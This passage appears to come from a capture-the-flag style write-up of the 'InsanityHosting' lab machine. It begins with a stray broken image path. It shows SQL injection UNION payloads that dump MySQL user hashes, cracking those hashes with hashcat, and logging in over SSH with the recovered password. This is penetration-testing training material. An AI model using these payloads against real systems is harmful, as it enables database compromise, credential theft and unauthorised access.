 - `root` did have `file_priv`, but doesn't have permission to write web root

```sql
test2" UNION ALL SELECT 1,2,3,(select group_concat(user,"|",file_priv,"||") from mysql.user where file_priv='Y');#---
```

![](/assets/obsidian/e5577b1f57f033642eb9bd856898a932.png)

Dump hashes from `mysql.user` table

```bash
test3" UNION ALL SELECT 1,2,3,(SELECT GROUP_CONCAT(user, '|', password, '|' ,authentication_string) FROM mysql.user);#---
```

^497e48

![](/assets/obsidian/6154a509f6fbf98edae8934ed0c9ab7a.png)

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cat loot/80_mysql_users.txt | tr ',' '\n' | uniq | tr '|' ':'
root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:
::
elliot::*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```

### Crack hashes

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cat loot/80_mysql_users.hash
root:CDA244FF510B063DA17DFF84FF39BA0849F7920F
elliot:5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ hashcat loot/80_mysql_users.hash /opt/wordlists/rockyou.txt --user -m 300
[...]

┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ hashcat loot/80_mysql_users.hash /opt/wordlists/rockyou.txt --user -m 300 --show
elliot:5a5749f309cac33b27ba94ee02168fa3c3e7a3e9:elliot123
```

### 22 - SSH : Credentials stuffing

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ cssh $(pt get rhost) elliot 'elliot123'
Warning: Permanently added 'insanityhosting.vm' (ED25519) to the list of known hosts.
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)
[elliot@insanityhosting ~]$
```
